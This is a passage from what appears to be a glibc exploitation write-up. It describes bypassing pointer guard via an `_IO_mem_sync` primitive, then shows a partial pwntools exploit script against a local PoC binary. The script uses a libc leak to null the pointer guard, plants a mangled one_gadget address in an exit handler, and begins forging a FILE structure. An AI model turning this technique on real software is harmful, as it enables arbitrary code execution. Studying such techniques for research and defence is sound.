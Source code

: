 I have to note though with the `_IO_mem_sync` primitive you can actually bypass the pointer guard protection. Because with the first arbitrary write you can null out the pointer guard (given a libc leak) and with the second arbitrary write you can alter the contents of any mangled pointer.

# Exploit for PoC #1
Now see it in action:
```python
from pwn import *

elf = context.binary = ELF('fgetspoc_patched', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript = '''
                set breakpoint pending on
                b __run_exit_handlers
        ''')
    else:
        return process(elf.path)

io = start()

io.recvuntil(b'libc leak: ') # skip blah blah
puts_leak = int(io.recvline(keepends = False), base = 16)
success(f'puts @ 0x{puts_leak:02x}')

libc.address = puts_leak - libc.sym.puts
success(f'libc @ 0x{libc.address:02x}')

where = libc.address - 0x2890 # overwrite the pointer guard.
what = 0x0

one_gadget = libc.address + 0xdb181

where2 = libc.sym.initial+24
what2 = one_gadget
what2 = rol(n = what2, k = 0x11, word_size = 64) # overwrite _IO_cleanup exti handler with a one gadget!

_IO_USER_BUF = 0x0001

_flags = p32(_IO_USER_BUF)
_flags_byte_hole = p32(0x0)
_IO_read_ptr = 0x0
_IO_read_end = 0x0
_IO_read_base = 0x0
_IO_write_base = what
_IO_write_ptr = _IO_write_base + what2
_IO_write_end = 0x0
_IO_buf_base = 0x0
_IO_buf_end = 0x0
_IO_save_base = 0x0
_IO_backup_base = 0x0
_IO_save_end = 0x0
_markers = 0x0

_chain = 0x0

_fileno = p32(0x0)
_flags2 = p32(0x0)
_old_offset = 0x0
_cur_column = p16(0x0)
```
